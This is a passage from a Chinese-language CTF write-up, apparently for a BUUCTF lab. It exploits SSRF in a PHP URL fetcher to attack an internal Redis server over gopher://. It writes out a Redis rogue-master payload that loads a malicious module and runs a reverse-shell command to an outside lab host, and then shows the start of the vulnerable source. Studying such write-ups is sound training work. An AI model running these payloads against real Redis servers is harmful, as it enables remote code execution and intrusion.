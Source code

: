    ```shell
   *3
   $6
   MODULE
   $4
   LOAD
   $11
   /tmp/exp.so
   *2
   $11
   system.exec
   $14
   cat${IFS}/flag
   *1
   $4
   quit
   ```

   上面的payload其实是利用gopher协议执行了三条命令，拆分开来如下：

   ```shell
   gopher://0.0.0.0:6379/_auth root
   config set dir /tmp/
   quit
   //设置备份文件路径为/tmp/ 顺便说一下看到当时大佬的博客说试了很多目录，最后发现只有/tmp有权限 ，只需要有读权限即可，所以说平时做渗透或者做题好多试试啊
   
   gopher://0.0.0.0:6379/_auth root
   config set dbfilename exp.so
   slaveof 172.16.163.170 6666
   quit
   //设置备份文件名为：exp.so，设置主redis地址为172.16.163.170，端口为6666 地址为buu开启的linux lab地址
   
   gopher://0.0.0.0:6379/_auth root
   module load /tmp/exp.so
   system.rev 172.16.163.170 6663
   quit
   //导入 exp.so ，反弹shell到172.16.163.170:6663
   
   ```

   

9. 因为题目用到curl，因此还需将生成的payload进行一次url编码。（[推荐网站](http://www.jsons.cn/urlencode/)）

   然后python rogue-server.py进行监听。在题目web界面输入两次url=payload，即可获得flag。

   <img src="../images/image-20210120152730096.png" alt="image-20210120152730096" style="zoom:50%;" />

   <img src="../images/image-20210120152711275.png" alt="image-20210120152711275" width="50%;" />

10. 附录源码：

```php
<?php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
```